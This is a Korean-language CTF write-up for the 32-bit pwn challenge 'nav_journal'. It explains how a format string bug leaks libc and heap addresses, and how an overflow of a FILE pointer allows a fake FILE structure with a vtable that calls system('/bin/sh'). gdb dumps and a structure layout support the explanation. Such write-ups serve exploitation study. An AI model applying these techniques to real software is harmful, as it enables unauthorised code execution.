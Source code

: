 nav_journal write up
---------------
pwn , 473pts

desc 
---------------

- FSB
- FSOP


files 
---------------

- challenge 
- libc.so.6(glibc 2.23->ubuntu 16.04)
- ld-2.23.so

checksec 
---------------
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
solution 
---------------
프로그램 실행 시 이름을 입력받고, 메뉴가 9개 나온다. 
```
Enter your name: aa
Hello, aa
------ Navigation Journal ------
1. Open main journal
2. Read main journal
3. Close main journal
4. Create sub journal
5. Write sub journal
6. Read sub journal
7. Close sub journal
8. Change username
9. Exit
```
이름은 전역변수 영역에 최대 0x54바이트만큼 입력받고, 마지막바이트는 0으로 초기화시킨다. 
파일 open시는 /tmp/journal.txt 을 열어서 파일 포인터는 전역변수 영역 nav_jr + 1536에 저장한다.
read시에는 nav_jr+1024영역에 파일의 내용을 0x200 바이트 만큼 읽어와 출력하고, close시에는 파일 포인터를 제거한다.

4번부터는 sub journal인데, create는 무작위 경로를 만들어 파일을 생성하고, 직접 이름을 입력할지 선택할 수 있다. 
이름을 입력할때 문제열이 특정 문자들과 일치하는지를 비교, 같으면 해당 문자열을 32로 바꾼다. 일종의 필터링 작업. 
이때 New File name이 출력되는 printf 문에서 fsb가 발생한다. 

5번은 파일에 0x604바이트만큼 내용을 쓰고, 6번은 같은 크기만큼 읽어와 출력한다. 
7번은 해당 파일포인터를 닫고, 8번은 시작할때 입력했던 username을 수정한다. 

5번의 내용대로면, 파일 포인터가 저장된 영역에 원하는내용대로 값을 쓰는것이 가능해지는데
해당 위치는 힙영역의 시작위치이고, 해당 위치에 입력값을 위해 0x610크기의 청크가 할당된다.
여기서 문제가 발생하는데, 입력값의 포인터 시작주소를 기준으로 385번째 배열위치에
위에서 만든 파일의 fopen결과, 즉 파일 포인터가 들어가게 된다.  385번쨰 배열위치는 385*4 = 0x604위치인데,
sub journal이 아닌 main journal을 close 할때는 384번쨰 배열위치를 참조한다. 
즉, 파일 내용을 입력할때 마지막 4바이트가 main journal의 파일 구조체 포인터 주소를 덮어쓰게 되는것. 
그렇게 되면 main을 close 할때 에러가 발생한다. 

그렇다면 입력값을 넣을때 해당 힙 위치에 가짜 파일구조체를 만든 다음, 
마지막 4바이트는 가짜 파일구조체가 만들어져 있는 힙의 주소를 넣어주는 식으로 FSOP를 유발할 수있겠다.

순서를 정리해보면, 4번의 create에서 FSB를 이용해 주소 leak -> 5번에서 FSOP 순.
fsb시 6바이트만 입력 가능하므로 여러번의 시도가 필요하다.
system 함수의 주소을 사용하기 위한 libc base와 fake vtable 구성을 위한 heap영역의 주소를 찾아야한다. 
libc는 5번쨰에서, heap은 12번째에서 각각 나온다.

이제 가짜 구조체를 만들어줘야 하는데, 32비트에서는 파일 구조체가 어떤식으로 구성되는지를 먼저 확인해보자.


```
gdb-peda$ x/40wx 0x09a0aa20                                                              
0x9a0aa20:      0xfbad2484      0x00000000      0x00000000      0x00000000
0x9a0aa30:      0x00000000      0x00000000      0x00000000      0x00000000
0x9a0aa40:      0x00000000      0x00000000      0x00000000      0x00000000
0x9a0aa50:      0x00000000      0x09a098b8      0x00000005      0x00000000
0x9a0aa60:      0x00000000      0x00000000      0x09a0aab8      0xffffffff
0x9a0aa70:      0xffffffff      0x00000000      0x09a0aac4      0x00000000
0x9a0aa80:      0x00000000      0x00000000      0x00000000      0x00000000
0x9a0aa90:      0x00000000      0x00000000      0x00000000      0x00000000
0x9a0aaa0:      0x00000000      0x00000000      0x00000000      0x00000000
0x9a0aab0:      0x00000000      0xf7744ac0      0x00000000      0x00000000
gdb-peda$ x/10wx 0xf7744ac0
0xf7744ac0 <_IO_file_jumps>:    0x00000000      0x00000000      0xf75fc980      0xf75fd3a0
0xf7744ad0 <_IO_file_jumps+16>: 0xf75fd140      0xf75fe220      0xf75ff0b0      0xf75fc5f0
0xf7744ae0 <_IO_file_jumps+32>: 0xf75fc200      0xf75fb4a0
gdb-peda$ x/3i 0xf75fc980
   0xf75fc980 <_IO_new_file_finish>:    push   ebx
   0xf75fc981 <_IO_new_file_finish+1>:  sub    esp,0x8
   0xf75fc984 <_IO_new_file_finish+4>:  mov    ebx,DWORD PTR [esp+0x10]
```

파일 구조체 시작주소 0x94위치에 vtable의 주소가 저장되고, vtable+0x8위치가 file_finish의 주소가 들어갈 곳이다.
파일 포인터 첫 위치에 있는 값이 __file__finish 함수의 인자값이 되어 들어가므로 해당 위치에는 "/bin/sh" 문자열이 들어가야 한다 .

```
"/bin/sh"                       0x00000000      0x00000000
0x00000000      0x00000000      0x00000000      0x00000000
0x00000000      0x00000000      0x00000000      0x00000000
0x00000000      0x00000000      0x00000000      0x00000000
0x00000000      0x00000000      유효한 주소     0xffffffff
0xffffffff      0x00000000      유효한 주소     0x00000000
0x00000000      0x00000000      0x00000000      0x00000000
0x00000000      0x00000000      0x00000000      0x00000000
0x00000000      0x00000000      0x00000000      0x00000000
0x00000000      heap+0xa0       0x00000000      0x00000000
0x00000000      0x00000000      system함수 주소 0x00000000 <- vtable 

```
이렇게 파일포인터+vtable 구조를 만들어보자.
실제로 어셈을 따라가보니, 예상했던 위치의 함수를 실행하지 않고 조금 더 멀리 있는 값을 참조했다.
```
   0xf7597917 <_IO_new_file_close_it+263>:      mov    eax,DWORD PTR [ebx+eax*1+0x94]
   0xf759791e <_IO_new_file_close_it+270>:      push   ebx
=> 0xf759791f <_IO_new_file_close_it+271>:      call   DWORD PTR [eax+0x44]
```
따라서 vtable 시작주소+0x44위치에 시스템함수의 주소값을 넣어주어야 하고, 중간에 함수 내부 연산으로 인해 
파일 포인터 주소값이 들어간 위치에 +1 연산이 가해지기 때문에 주소값을 넣을떄는 1을 뺀 값을 넣어주었다.













